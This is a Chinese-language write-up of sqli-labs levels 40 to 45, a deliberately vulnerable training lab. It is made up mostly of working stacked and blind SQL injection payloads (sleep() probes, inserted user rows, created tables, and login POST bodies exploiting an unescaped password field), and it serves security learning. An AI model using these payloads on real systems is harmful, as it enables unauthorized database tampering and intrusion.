 ##第40关
http://127.0.0.1/sqli-labs/Less-40?id=1') and sleep(6) — -
http://127.0.0.1/sqli-labs/Less-40?id=1') and if(database()='security', sleep(6),sleep(0)) -- -
以上payload 并不能体现是堆叠查询

下面面的payload 体现了堆叠，但的确盲，需要通过数据库查看，实际场景可能需要判断功能点，例如登录
http://127.0.0.1/sqli-labs/Less-40?id=1'); insert into users (username,password) values ('linghuchong','renyingying') — -

##第41关
数字类型的堆叠注入
http://127.0.0.1/sqli-labs/Less-41?id=1; insert into users (id,username,password) values (39,'dongxie','xidu') -- +

##第42关
报错堆叠
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
$password = $_POST["login_password”];

Username 使用了mysqli_real_escape_string() 函数过滤，这个会转义。
mysqli::real_escape_string -- mysqli::escape_string -- mysqli_real_escape_string — 根据当前连接的字符集，对于 SQL 语句中的特殊字符进行转义

Password 没有过滤
所以payload
login_user=admin&login_password=123456';create table stacktab (dd int) -- +&mysubmit=Login

##第43关
字符串加括号
login_user=admin&login_password=123456');create table stacktab43 (dd int) -- +&mysubmit=Login

##第44关
盲注
密码成功与否都会执行后面的堆叠语句。
login_user=admin&login_password=123456';create table stacktab44 (dd int) -- +&mysubmit=Login

##第45关
login_user=admin&login_password=12345');create table newtab (id int) -- +&mysubmit=Login
其中43关和45关利用方式一样，对比代码发现43关多一些sql报错的代码
也就是报错类，一般会有好sql语句报错提示，例如mysqli_error()

~~~php
else
{
   echo '<font size="5" color= "#FFFF00">';
   print_r(mysqli_error($con1));
   echo "</font>";
}
}
else
{
   echo '<font size="5" color= "#FFFF00">';
   print_r(mysqli_error($con1));
   echo "</font>";
}
~~~
